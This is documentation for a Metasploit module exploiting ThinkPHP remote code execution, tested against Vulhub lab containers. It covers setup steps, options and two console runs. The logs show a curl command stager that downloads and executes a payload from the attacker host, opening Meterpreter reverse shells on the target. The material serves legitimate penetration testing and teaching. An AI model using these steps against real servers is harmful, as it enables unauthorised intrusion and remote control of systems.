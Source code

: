 ## Vulnerable Application

### Description

This module exploits one of two PHP injection vulnerabilities in the
ThinkPHP web framework to execute code as the web user.

Versions up to and including 5.0.23 are exploitable, though 5.0.23 is
vulnerable to a separate vulnerability. The module will automatically
attempt to detect the version of the software.

Tested against versions 5.0.20 and 5.0.23 as can be found on Vulhub.

### Setup

1. `git clone https://github.com/vulhub/vulhub`
2. `cd vulhub/thinkphp/5-rce` for 5.0.20 or `cd vulhub/thinkphp/5.0.23-rce` for 5.0.23
3. `docker-compose up -d`

### Targets

```
Id  Name
--  ----
0   Unix Command
1   Linux Dropper
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### SRVPORT

If you are testing the [Docker container](#setup), which binds to port
8080 by default, and you are using an HTTP(S) command stager, set this
to a different port to bind the command stager server to.

## Scenarios

### ThinkPHP 5.0.20 from [Vulhub](https://github.com/vulhub/vulhub/tree/master/thinkphp/5-rce)

```
msf5 > use exploit/unix/webapp/thinkphp_rce
msf5 exploit(unix/webapp/thinkphp_rce) > show missing

Module options (exploit/unix/webapp/thinkphp_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/webapp/thinkphp_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/thinkphp_rce) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(unix/webapp/thinkphp_rce) > set cmdstager::flavor curl
cmdstager::flavor => curl
msf5 exploit(unix/webapp/thinkphp_rce) > set srvport 8888
srvport => 8888
msf5 exploit(unix/webapp/thinkphp_rce) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. ThinkPHP 5.0.20 is a vulnerable version.
[*] Targeting ThinkPHP 5.0.20 automatically
[*] Using URL: http://0.0.0.0:8888/IV0dIafe
[*] Local IP: http://192.168.1.3:8888/IV0dIafe
[*] Generated command stager: ["curl -so /tmp/UJiMvCsm http://192.168.1.3:8888/IV0dIafe;chmod +x /tmp/UJiMvCsm;/tmp/UJiMvCsm;rm -f /tmp/UJiMvCsm"]
[*] Executing command: curl -so /tmp/UJiMvCsm http://192.168.1.3:8888/IV0dIafe;chmod +x /tmp/UJiMvCsm;/tmp/UJiMvCsm;rm -f /tmp/UJiMvCsm
[*] Client 192.168.1.3 (curl/7.52.1) requested /IV0dIafe
[*] Sending payload to 192.168.1.3 (curl/7.52.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:64475) at 2020-04-13 01:02:13 -0500
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ c94d71fb70ec (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer     : 172.21.0.2
OS           : Debian 9.4 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### ThinkPHP 5.0.23 from [Vulhub](https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce)

```
msf5 exploit(unix/webapp/thinkphp_rce) > set rport 8081
rport => 8081
msf5 exploit(unix/webapp/thinkphp_rce) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. ThinkPHP 5.0.23 is a vulnerable version.
[*] Targeting ThinkPHP 5.0.23 automatically
[*] Using URL: http://0.0.0.0:8888/zD3iTDja
[*] Local IP: http://192.168.1.3:8888/zD3iTDja
[*] Generated command stager: ["curl -so /tmp/XnysdYyf http://192.168.1.3:8888/zD3iTDja;chmod +x /tmp/XnysdYyf;/tmp/XnysdYyf;rm -f /tmp/XnysdYyf"]
[*] Executing command: curl -so /tmp/XnysdYyf http://192.168.1.3:8888/zD3iTDja;chmod +x /tmp/XnysdYyf;/tmp/XnysdYyf;rm -f /tmp/XnysdYyf
[*] Client 192.168.1.3 (curl/7.52.1) requested /zD3iTDja
[*] Sending payload to 192.168.1.3 (curl/7.52.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.3
[*] Meterpreter session 2 opened (192.168.1.3:4444 -> 192.168.1.3:64482) at 2020-04-13 01:03:29 -0500
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ 9a6301c3c31d (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer     : 172.22.0.2
OS           : Debian 9.6 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
